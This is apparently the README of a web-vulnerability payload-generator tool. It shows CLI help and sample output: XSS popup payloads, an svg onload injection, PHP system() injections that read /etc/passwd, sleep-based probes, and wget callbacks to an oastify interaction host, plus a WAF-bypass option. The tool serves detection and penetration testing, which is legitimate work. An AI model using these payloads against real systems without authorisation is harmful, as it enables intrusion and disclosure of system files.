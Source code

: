 # Payload Generator
Payload Generator Tool. These payloads are only help to detect the vulnerability. 

- [x] XSS Payload Generation
- [ ] SSTI Payload Generation
- [ ] HTML Injection Payload Generation
- [ ] Open Redirection Payload Generation
- [ ] SQL Injection Payload Generation
- [ ] Command Injection Payload Generation
- [ ] SSI Injection Payload Generation
- [x] PHP Code Injection Payload Generation



## XSS Payloads

### Help

```bash
usage: generator.py xss [-h] [--popup] [--logger] [--oast] [--dom] [--ored] [--oast-domain] [--unique-string] [--waf] [--reverse-payloads] [--urlencode]

options:
  -h, --help          show this help message and exit

XSS Payload Types:
  --popup             Generate Popup Payloads
  --logger            Generate Console.log() Payloads
  --oast              Generate OAST Payloads
  --dom               Generate DOM Payloads
  --ored              Generate ORED Payloads

XSS Payload Options:
  --oast-domain       Set OAST Domain for payloads
  --unique-string     Set Unique String for testing

XSS Payload Mutations:
  --waf               Generate WAF Bypass Payloads
  --reverse-payloads  Generate Reverse Payloads
  --urlencode         Set URL Encoding for payload generator
```

### Generate Popup Payloads

```bash
python3 generator.py xss --popup 
confirm("yDrQfNiA5EdYHhmJIWMw")
confirm`yDrQfNiA5EdYHhmJIWMw`
(confirm`yDrQfNiA5EdYHhmJIWMw`)
{confirm`yDrQfNiA5EdYHhmJIWMw`}
[confirm`yDrQfNiA5EdYHhmJIWMw`]
(((confirm)))`yDrQfNiA5EdYHhmJIWMw`
new class extends confirm`yDrQfNiA5EdYHhmJIWMw`{}
["yDrQfNiA5EdYHhmJIWMw"].find(confirm)
[1337].map(confirm)
<svg/onload="confirm("yDrQfNiA5EdYHhmJIWMw")">
[...]
```

## PHP

### Help

```bash
usage: generator.py php [-h] [--oast-domain] [--unique-string] [--sleep-timeout] [--urlencode]

options:
  -h, --help        show this help message and exit

PHP CI Payload Options:
  --oast-domain     Set OAST Domain for payloads
  --unique-string   Set Unique String for testing
  --sleep-timeout   Set Sleep Timeout

PHP Payload Mutations:
  --urlencode       Set URL Encoding for payload generator
```


### Generate Payloads

```bash
python3 generator.py php --sleep-timeout 17 --oast-domain burp-collaborator.oastify
system("cat /etc/passwd")
system("cat /etc/passwd");
;system("cat /etc/passwd");
<?php system("cat /etc/passwd"); ?>
system("sleep 15")
system("sleep 15");
;system("sleep 15");
<?php system("sleep 15"); ?>
system("timeout /T 15")
system("timeout /T 15");
;system("timeout /T 15");
<?php system("timeout /T 15"); ?>
system("echo GPULkqAgAWzO8OwtzYlg")
system("echo GPULkqAgAWzO8OwtzYlg");
;system("echo GPULkqAgAWzO8OwtzYlg");
<?php system("echo GPULkqAgAWzO8OwtzYlg"); ?>
system("wget http://asd.oastify/GPULkqAgAWzO8OwtzYlg")
system("wget http://asd.oastify/GPULkqAgAWzO8OwtzYlg");
;system("wget http://asd.oastify/GPULkqAgAWzO8OwtzYlg");
<?php system("wget http://asd.oastify/GPULkqAgAWzO8OwtzYlg"); ?>
[...]
```
